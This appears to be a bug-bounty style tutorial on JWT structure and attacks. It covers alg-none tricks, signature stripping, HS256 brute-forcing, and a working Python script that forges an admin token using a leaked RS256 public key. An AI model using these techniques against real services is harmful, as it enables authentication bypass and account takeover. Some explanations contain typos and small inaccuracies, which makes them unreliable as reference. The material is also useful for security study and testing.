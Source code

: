 # Hacking Json Web Tokens

### What is JWT (Json Web Token)

After Login we get a session ID. Then the server checks that session id and which user contains it.
Then provides data by fetching from database

Now a days modern architectures are changed. Theere are multiple web servers managed by a 
single load balancer. So what if one clinet got his session id from server A
and the next request was sent to server B. Server won't be able to identify that user.
That's why JWT was intrduced.

Instead of fetching all data from database we can store it in user's local storage.
With a expiration time using JWT. It is signed with server signature so that user can't change the data inside the token without knowing the secret key.


### How JWT Works
- User Logged In 
- Now Server Will Fetch User's Data From Databse
- Then Server Creates A Secure JWT Token. And Assigns To The User.
- Now From The Client Side The Entire Data Will Be Transferred By Authorization Header to the server
- It is transferred in Base64 Encoded Format

## JWT Build Algorithm

It is a Json Format Based Token Which Contains 3 Parts. 
Encoded in base 64 Separated by .
- Header
- Payload
- Signature

Ex : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

Header : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
```python
base64enc[{
"algo":"HS256",
"typ":"JWT"
}]
```
- alg - which algorithm is used to create the signature Ex : HS256,RS256,PS256

Payload : eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ
```python
base64enc[{
"firstname:"sss",
"lastname":"tmss",
"userid":"234"
}] 
```

Signature : SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```python
HMACSHA256{
base64enc(header).base64enc(payload).secret(key)
}
```
- Request Recieved To Server 
```json
jwt : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```
- Server Took Payload and header 
- Created A Hash Using Secret Key
- Verfied If Recieved Secret Key Is The Same What He assigned to user when he logged in
### Seccurity Conserns In JWT

- Confidential Data Stored In JWT
- No Encryption Used In Transport Layer /On Wireshark 
- JWT Hijacking If Stored In Cookie
- Algo = None // Don't Validate The Signature
- Secret Key Bruteforcing


### Bugs
1 - None Algorith Attack
Change algo to none 
```python
{
  "alg": "None",
  "typ": "JWT"
}
{
  "alg": None,
  "typ": "JWT"
}
```
And try to perform action
Change algo to none + Remove All Data from Signature field
```python
{
  "alg": "None",
  "typ": "JWT"
}
# Remove Entire Signature Part Or Leave It Blank
```
2 - Algo Change
RSA256 - Uses public key to verify token if we have that public key exposed we might be able to do this
Create own HS256 Signed JWT With Exposed public key
now The Server will Think The public Key is secret key and logs you in
```python
### JWT Token Generater
import hmac
import hashlib
import base64

#Paste the file with the key 
file=open('public.pem')

key = file.read()

#Paste your header and payload here
header = '{"alg":"HS256"}'
payload = '{"name":"admin"}'

#Creating encoded header
encodedHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodedHeader = str(encodedHBytes, "utf-8").rstrip("=")

#Creating encoded payload
encodedPBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodedPayload = str(encodedPBytes, "utf-8").rstrip("=")

#Concatenating header and payload
token = (encodedHeader + "." + encodedPayload)

#Creating signature
sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "UTF-8"),token.encode('utf-8'),hashlib.sha256).digest()).decode('UTF-8').rstrip("=")

print(token + "." + sig)
```
How we found .pem in real senario. We find in leaking through jwk.json
```python
https://{yourDomain}/.well-known/jwks.json
```
or waybackurl's jwk.json file or .pem url

3 - Change Signature section complete 
Or Leave it blank

4 BruteForce HS256 
[jwtbrute](https://github.com/jmaxxz/jwtbrute)



